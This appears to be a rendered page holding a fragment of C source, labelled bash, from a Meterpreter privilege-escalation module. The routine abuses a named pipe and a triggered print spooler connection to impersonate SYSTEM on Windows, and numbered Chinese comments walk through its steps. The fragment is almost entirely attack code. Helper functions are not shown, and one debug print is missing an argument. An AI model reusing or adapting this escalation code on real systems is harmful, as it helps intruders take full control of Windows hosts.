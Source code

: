 ```bash
        pThread = met_api->thread.create(elevate_namedpipe_thread, &cPipeName1, hSem, &PostImpersonation);
        if (!pThread) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.create failed",
                ERROR_INVALID_HANDLE);
        }

        if (!met_api->thread.run(pThread)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. met_api->thread.run failed",
                ERROR_ACCESS_DENIED);
        }

        // 7. 等待线程创建命名管道，如果超时则输出错误信息并返回
        if (hSem) {
            if (WaitForSingleObject(hSem, 500) != WAIT_OBJECT_0) {
                BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. WaitForSingleObject failed",
                    ERROR_ACCESS_DENIED);
            }
        }
        else {
            Sleep(500);
        }
        // 8. 触发打印机连接
        trigger_printer_connection(cPipeName2);

        // 9. 通知线程终止
        met_api->thread.sigterm(pThread);

        // 10. 等待线程终止
        met_api->thread.join(pThread);

        // 11. 获取线程的退出代码
        dprintf("[ELEVATE] dwResult before exit code: %u", dwResult);
        if (!GetExitCodeThread(pThread->handle, &dwResult)) {
            BREAK_WITH_ERROR("[ELEVATE] elevate_via_namedpipe_printspooler. GetExitCodeThread failed",
                ERROR_INVALID_HANDLE);
        }
        dprintf("[ELEVATE] dwResult after exit code: %u");
    } while (0);

    // 12. 清理资源
    if (pThread) {
        met_api->thread.destroy(pThread);
    }
    if (hSem) {
        CloseHandle(hSem);
    }
    // 13. 返回结果代码
    return dwResult;
}
```
